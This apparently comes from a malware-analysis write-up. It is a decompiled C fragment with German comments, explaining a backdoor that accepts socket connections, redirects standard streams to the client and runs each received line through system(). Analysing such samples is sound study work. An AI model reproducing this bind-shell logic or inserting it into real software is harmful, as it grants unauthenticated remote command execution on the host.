 ```
        Verbindungen gleichzeitig aufbauen */ 

  if (iVar1 < 0) {
    perror("listen failed");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  memset(local_418,0,0x400);
  while( true ) {
    local_434 = accept(local_438,&local_428,&local_43c);

    		/*Endlosschleife in der eingehende 
            Verbindungen akzeptiert werden. Für jede 
            Verbindung wird ein neues Socket
            (local_434) für die Kommunikation mit dem 
            Client erstellt */

    if (local_434 < 0) break;	
    
    /* wenn client disconnected (accept liefert wert 
    < 0) wird cleanup gestartet und auf neue 
    Verbindungen gewartet */

    close(0);		

    /* die standard input, output und error streams 
    (file descriptors 1,2,3) werden geschlossen und 
    an das Socket mit dup umgeleitet */

    close(1);
    close(2);
    dup(local_434);	
    dup(local_434);
    dup(local_434);
    while( true ) {
      local_430 = read(local_434,local_418,0x400);

      	/*in der inneren Schleife werden die Daten 
        vom Client Socket in local_418 gelesen und in 
        den Buffer local_418 geschrieben. 
        Anschließend werden die empfangenen Daten mit 
        der Funktion system als Command ausgeführt 
        und der output des commands zurück an den 
        Client geschrieben mit write */

      if (local_430 == 0xffffffffffffffff) break;
      write(0,"\nYes, master... executing: ",0x1b);
      write(0,local_418,local_430);
      write(0,&DAT_00100e4a,1);
      system(local_418);
      memset(local_418,0,0x400);
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
